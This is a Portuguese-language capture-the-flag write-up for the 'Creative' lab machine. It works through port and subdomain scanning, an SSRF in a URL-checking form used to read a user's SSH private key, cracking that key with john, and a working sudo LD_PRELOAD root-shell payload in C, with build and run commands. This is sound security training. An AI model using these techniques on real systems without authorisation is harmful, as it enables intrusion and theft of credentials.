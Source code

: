 # _**Creative CTF**_
![](creative.jpg)

## _**Enumeração**_ 
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Parece que temos uma página web, vamos investigar  
Temos que adicionar o endereço IP e _creative.thm_ em _/etc/hosts_  
Agora, vamos realizar um scan com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url creative.thm -w ../seclists/Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Parece que não temos muitas opções de exploração  
Vamos tentar procurar por subdomínios com <mark>ffuf</mark>
> ```bash
> ffuf -w ../seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://creative.thm/ -H "Host:FUZZ.creative.thm" -fw 6
> ```
![](result_ffuf.jpg)

Temos um domínio  
Visitando, temos a seguinte página  

![](new_domain.jpg)

Podemos testar alguns diretórios como _/etc/passwd_  
Após, temos a mensagem **dead** de retorno  
Parece que não iremos conseguir muito tentando assim  

Na tentativa de _http://127.0.0.1/_, temos uma página de retorno!  
Este campo, permite inserir uma URL arbitrária para testar se o site está online  
Vamos tentar buscar por portas internas com esta URL específica ao invés de URLs genéricas
> ```bash
> seq 65535 > ports.txt
> ffuf -w ports.txt -u http://beta.creative.thm/ -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "url=http://127.0.0.1:FUZZ" -fw 3
> ```
![](ffuf_return_port.jpg)

Parece que temos uma porta  
Vamos investigar  
É um listamento do diretório **/**  

![](root_dir.jpg)
## _**Ganhando acesso e Escalando privilégios**_
Investigando essa nova descoberta, vemos que é possível acessar: _http://127.0.0.1:1337/home/saad/.ssh/id_rsa_  
Isso quer dizer que podemos recuperar a chave ssh de **saad** e realizar login via SSH  
Primeiro, vamos:
> ```bash
> ssh2john id_rsa > file.hash
> john file.hash -w=../rockyou.txt
> ```
Damos as permissões necessárias e realizamos login  

![](john_result.jpg)

Buscando escalar privilégios de alguma maneira, encontramos o seguinte no arquivo _.bash_history_  
Temos a senha do usuário **saad**  
Tentando executar o comando ```sudo -i```, temos que ele não pode  
Vamos buscar outros meios de escalar privilégios  
Executando o comando ```sudo -l```, temos o seguinte:  

![](sudo_l.jpg)

Você tem permissão para executar _/usr/bin/ping_ como _root_, o que permite uma escalada de privilégio via abuso de sudo e LD_PRELOAD, já que o sudo mantém a variável LD_PRELOAD  
O código em C abaixo nos permite fazer isso  
> ```bash
> #include <stdio.h>
> #include <stdlib.h>
> #include <unistd.h>
> 
> void _init() {
>     unsetenv("LD_PRELOAD");
>     setgid(0);
>     setuid(0);
>     system("/bin/bash");
> }
> ```

Vamos compilar o código com o comando abaixo:
> ```bash
> gcc -fPIC -shared -o root.so exploit.c -nostartfiles
> ```
Por fim, executamos o comando abaixo para ganhar _root_
> ```bash
> sudo LD_PRELOAD=/path/to/root.so /usr/bin/ping
> ```
![](root.jpg)

Basta ir atrás das flags agora!
